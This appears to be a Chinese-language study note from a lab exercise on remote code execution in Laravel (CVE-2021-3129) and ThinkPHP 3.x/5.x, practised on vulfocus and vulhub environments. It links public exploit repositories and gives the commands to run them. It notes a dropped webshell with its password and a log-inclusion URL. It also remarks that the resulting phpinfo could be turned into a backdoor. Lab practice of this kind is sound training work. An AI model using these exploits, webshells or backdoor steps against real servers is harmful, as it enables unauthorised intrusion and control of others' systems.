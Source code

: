- PHP-开发框架安全-Thinkphp&Laravel

Laravel

```plain
-Laravel是一套简洁、优雅的PHP Web开发框架(PHP Web Framework)。
CVE-2021-3129 RCE
Laravel <= 8.4.2
exp：
https://github.com/zhzyker/CVE-2021-3129
https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP

环境（laravel 远程代码执行 （CVE-2021-3129））：http://vulfocus.io/#/dashboard

项目：https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP
执行：G:\python38\python.exe laravel-CVE-2021-3129-EXP.py http://123.58.236.76:47464
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947717-1310800063.png)

```plain
用哥斯拉连接：webshell地址:http://123.58.236.76:47464/fuckyou.php,密码:pass
用到项目：https://github.com/zhzyker/CVE-2021-3129
执行：G:\python38\python.exe exp.py http://123.58.236.76:47464/
没有任何反应。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947671-307164245.png)

Thinkphp

```plain
Thinkphp-3.X RCE-5.X RCE
ThinkPHP是一套开源的、基于PHP的轻量级Web应用开发框架
武器库-Thinkphp专检

环境（thinkphp3.2.x 代码执行）：http://vulfocus.io/#/dashboard
可以用工具直接进行检测，选择thinkphp漏洞利用工具_v1.2
参考：https://blog.csdn.net/LYJ20010728/article/details/119304951
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947742-316399120.png)

```plain
访问：http://123.58.236.76:51663/?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/22_04_24.log
执行出phpinfo效果。把phpinfo一改，变成后门就可以了
thinkphp5.0.22

启动环境：
cd vulhub-master/thinkphp/5-rce/
sudo docker-compose up -d
参考：https://vulhub.org/#/environments/thinkphp/5-rce/

访问：http://192.168.233.128:8081
放到集成化工具中检测：
```
